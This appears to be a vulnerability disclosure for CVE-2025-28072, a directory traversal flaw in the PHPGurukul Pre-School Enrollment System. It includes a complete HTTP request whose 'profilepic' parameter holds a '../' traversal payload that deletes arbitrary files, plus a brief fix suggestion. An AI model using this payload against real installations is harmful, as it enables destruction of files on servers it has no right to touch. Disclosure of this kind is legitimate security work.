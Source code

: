 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability(CVE-2025-28072)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by a directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.
   

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with profilepic in the manage-teachers.php file   
   ![1](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100513.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100551.png)
      
   Find the vulnerable function in the manage-teachers.php article, manage-teachers-delete
  
   ![3](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100037.png)
  
   Intercept the data packet and find the problematic parameter profilepic
   
   ![4](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100051.png)

   Transformed into attack payload  

    GET /School/preschool/admin/manage-teachers.php?action=delete&&tid=1&&profilepic=../../../../../../aaa.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate, br, zstd
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/School/preschool/admin/manage-teachers.php
    Accept-Language: zh-CN,zh;q=0.9
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
    Cookie: PHPSESSID=7t2liii8fu23b3cjsll5qi6q8t


   Create aaa.txt test file in the local D drive   
       ![5](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100159.png)   

   Send payload, aaa.txt file has been deleted   
   ![6](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100443.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
